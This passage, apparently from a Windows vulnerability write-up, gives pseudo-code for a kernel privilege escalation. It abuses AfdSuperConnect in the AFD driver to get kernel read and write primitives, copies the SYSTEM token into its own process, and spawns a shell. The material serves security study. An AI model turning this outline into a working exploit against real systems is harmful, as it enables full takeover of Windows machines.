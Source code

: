 Putting it all together in pseudo-code, it looks something like this:
```c
// Use the Windows API to get all the information we want.
token, process := find_token_and_process_using_NtQuerySystemInformation();
PsInitialSystemProcess_export, read_function, write_function := 
        find_exported_symbols_using_NtQuerySystemInformation();

// Use a system call that is more or less equivalent to 
// `socket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)`
socket_handle := NtCreateFile("\\Device\\Afd", EaBuffer = {AF_INET, SOCK_STREAM, IPPROTO_TCP});

// use the system call that is equivalent to 
// `setsockopt(socket, IPPROTO_TCP, TCP_FASTOPEN, &(u32){1}, 1)`
NtDeviceIoControlFile(socket_handle, 0x120bf, .input_buffer = {SetSockOpt, .level = IPPROTO_TCP, .option = TCP_FASTOPEN, .optval = &(u32){1}, .optlen = 1});

// use the system call that is equivalent to 
// `bind(socket, &(struct sockaddr){AF_INET}, sizeof(struct sockaddr))`
NtDeviceIoControlFile(socket_handle, 0x12003, ...);

// The read and write primitives now work by triggering the vulnerability by calling 
// `AfdSuperConnect` through the `NtDeviceIoControlFile`.
function u64 read_u64(u64 address):
    read_argument := {.pointer = address};
    NtDeviceIoControlFile(socket_handle, 0x120c7, .input_buffer = {.sockaddr = {AF_INET, .offset_0x5c = read_function, .offset_0x64 = &read_argument}});
    return read_argument.value;

function void write_u64(u64 address, u64 value):
    write_argument := {.pointer = address, .value = value};
    NtDeviceIoControlFile(socket_handle, 0x120c7, .input_buffer = {.sockaddr = {AF_INET, .offset_0x5c = write_function, .offset_0x64 = &write_argument}});

// figure out the token_offset, by linearly scanning through our `_EPROCESS`
for i from 0 to 0x1000:
    maybe_token := read_u64(process + i * 8);
    if maybe_token == token:
        token_offset = i * 8;
        break;

// figure out the `_TOKEN` of `nt!PsInitialSystemProcess`
PsInitialSystemProcess = read_u64(PsInitialSystemProcess_export);
PsInitialSystemProcessToken = read_u64(PsInitialSystemProcess + token_offset);

// actually steal the access `_TOKEN` to give us complete access rights.
write_u64(token + token_offset, PsInitialSystemProcessToken);

// spawn a shell to keep the access rights in a clean way.
spawn_shell();
```
